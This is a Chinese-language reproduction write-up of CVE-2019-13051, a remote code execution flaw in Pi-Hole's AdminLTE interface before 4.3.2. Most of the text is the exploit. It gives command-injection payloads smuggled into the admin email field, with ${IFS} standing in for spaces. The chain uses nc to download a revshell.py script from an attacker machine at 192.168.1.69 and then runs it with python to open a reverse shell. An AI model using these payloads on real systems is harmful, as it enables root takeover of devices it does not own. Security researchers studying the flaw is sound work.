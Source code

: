 （CVE-2019-13051）Pi-Hole 远程代码执行漏洞
==========================================

一、漏洞简介
------------

通过描述的"AdminLTE"组件上的漏洞，可以远程获得RaspberyPi设备（或应用程序正在运行的任何设备/VM）上的根访问权限。要利用此漏洞，需要对AdminLTE
web界面的管理访问权限凭据。

二、漏洞影响
------------

Pi-Hole \< 4.3.2

三、复现过程
------------

在管理员邮箱处添加

    "`test>/tmp/poc_proof.txt`"@0-sec.org

![1.png](./resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId24.png)

由于该系统设定原因，需等待十分钟后，即可发现`/tmp/poc_proof.txt`
已经被创建

![2.jpg](./resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId25.jpg)

### 深入利用

现在攻击机上执行反弹shell命令

    nc -nvlp 4444 < revshell.py

在管理邮箱处执行反弹shell代码

    "`nc${IFS}192.168.1.69${IFS}4444>/tmp/revshell.py`"@0-sec.org

![3.png](./resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId27.png)

我们可以看到http请求如下所示

![4.png](./resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId28.png)

随后等待十分钟，查看是否执行成功

在确保执行成功后，继续执行nc反弹shell命令

    nc -nvlp 4445

最后，再向网站执行反弹shell命令

    “`python${IFS}/tmp/revshell.py`”@0-sec.org

等待十分钟后，查看回显结果

![5.jpg](./resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId29.jpg)
